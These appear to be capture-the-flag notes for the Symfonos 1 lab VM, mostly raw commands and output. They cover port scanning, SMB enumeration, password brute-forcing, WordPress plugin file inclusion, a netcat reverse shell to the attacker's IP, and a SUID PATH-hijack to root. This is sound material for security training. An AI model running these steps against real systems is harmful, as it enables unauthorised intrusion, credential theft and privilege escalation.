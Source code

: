 
Samba anonymous --> username helios --> URL WP -->  plugin faille web editor --> reverse shell --> SUID file --> Gain root privileges


```console
$ sudo nmap -sT -A -Pn -n -T4 -p-  192.168.110.46
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 09:18 CEST
Nmap scan report for 192.168.110.46
Host is up (0.00049s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:96:4A:06 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h39m57s, deviation: 2h53m12s, median: 1h59m57s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2021-09-15T04:18:56-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-15T09:18:56
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 192.168.110.46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds

```


```console

$ enum4linux 192.168.110.46
 =========================================== 
|    Share Enumeration on 192.168.110.46    |
 =========================================== 

    Sharename       Type      Comment
    ---------       ----      -------
    print$          Disk      Printer Drivers
    helios          Disk      Helios personal share
    anonymous       Disk      
    IPC$            IPC       IPC Service (Samba 4.5.16-Debian)

```


smbclient //192.168.110.46/anonymous
smbclient //192.168.110.46/helios -U helios

medusa -u helios -P passwords.txt -h 192.168.110.46 -M smbnt


//192.168.110.46/helios



curl http://symfonos.local/h3l105/wp-content/uploads


└─$ searchsploit wordpress site editor 
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
WordPress Plugin Site Editor 1.1.1 - Local File Inclusio | php/webapps/44340.txt
WordPress Plugin User Role Editor 3.12 - Cross-Site Requ | php/webapps/25721.txt
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                           
┌──(kali㉿kali)-[~/OSCP/boxes/symfonos-1]
└─$ searchsploit -m php/webapps/44340.txt


curl http://192.168.110.46/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

$ telnet smtp.free.fr 25
Trying 212.27.48.4...
Connected to smtp.free.fr.
Escape character is '^]'.
220 smtp4-g21.free.fr ESMTP Postfix
HELO test.domain.com
250 smtp4-g21.free.fr
MAIL FROM:<test@domain.com>
250 2.1.0 Ok
RCPT TO:<toto@domain.fr>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: test message
This is the body of the message!
.
250 2.0.0 Ok: queued as 2D8FD4C80FF
quit
221 2.0.0 Bye
Connection closed by foreign host.



curl -s -G --data-urlencode "ajax_path=/var/mail/helios"  --data-urlencode "cmd=nc 192.168.110.1 443 -e /bin/sh" http://192.168.110.46/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php


python -c 'import pty; pty.spawn("/bin/sh")'

define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );



$ mysql -uwordpress -ppassword123 -hlocalhost wordpress

$ find / -perm -u=s -type f 2>/dev/null
/opt/statuscheck


$ strings /opt/statuscheck
strings /opt/statuscheck

curl -I H
http://lH
ocalhostH


curl -I H http://localhost


$ curl -I H http://localhost
curl -I H http://localhost
curl: (6) Could not resolve host: H
HTTP/1.1 200 OK
Date: Wed, 15 Sep 2021 12:18:11 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html

$ /opt/statuscheck
/opt/statuscheck
HTTP/1.1 200 OK
Date: Wed, 15 Sep 2021 12:18:27 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html



echo cp /bin/sh /tmp/sh > /tmp/curl
echo chown root:root /tmp/sh >> /tmp/curl
echo chmod 4755 /tmp/sh >> /tmp/curl
chmod +x /tmp/curl

export PATH=/tmp:$PATH

ls -al /tmp/curl
-rwxr-xr-x 1 helios helios 62 Sep 15 07:19 /tmp/curl

$ /opt/statuscheck

$ ls -al /tmp/sh
ls -al /tmp/sh
-rwsr-xr-x 1 root root 117208 Sep 15 07:19 /tmp/sh

$ id  
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)

$ /tmp/sh
# id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
# whoami

root
